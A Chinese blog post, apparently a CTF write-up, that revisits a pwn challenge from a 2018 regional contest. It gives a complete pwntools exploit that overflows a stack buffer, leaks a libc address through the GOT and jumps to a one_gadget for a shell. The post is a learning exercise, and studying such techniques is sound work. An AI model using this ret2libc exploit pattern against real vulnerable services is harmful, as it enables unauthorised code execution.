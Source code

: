 ```yaml
---
layout: post
title:  "铁三福建赛区pwn回顾"
date:   2018-09-12 19:12:00
categories: WriteUp
tags: WriteUp PWN 铁三
---
```


* content
{:toc}

建了新博客开始还是写点东西存着，不然空空的感觉也不是很好，刚好看到文涛学长
给我的铁三PWN题，当时我连涛神写的exp都看不懂，现在看看自己当初真的太菜了，
所以现在重新看一遍题目来检验现在的实力





## ROP


### 思路

简单看了一遍程序，vuln函数明显的栈溢出，利用空间贼大，checksec检测下只开了NX，
直接ret2libc做ROP来getshell

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('./rop')
elf = ELF('./rop')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
#libc = ELF('./libc32')

buf = 'a'*0x88
vuln_addr = 0x08048474
write_got = elf.got['write']
write_plt = elf.plt['write']
write_sym = libc.symbols['write']
bin_sh = libc.search('/bin/sh').next()
system_sym = libc.symbols['system']

leak = buf+'aaaa'+ p32(write_plt) +p32(vuln_addr)+ p32(1) + p32(write_got) + p32(0x4)
n.sendline(leak)
write_addr = u32(n.recv())
print hex(write_addr)

libc_base = write_addr - write_sym
system_addr = libc_base + system_sym
#one_gadget = 0x3a80c
one_gadget = 0x3ac5c + libc_base
payload = buf+ 'aaaa' + p32(one_gadget)
n.sendline(payload)

n.interactive()
```
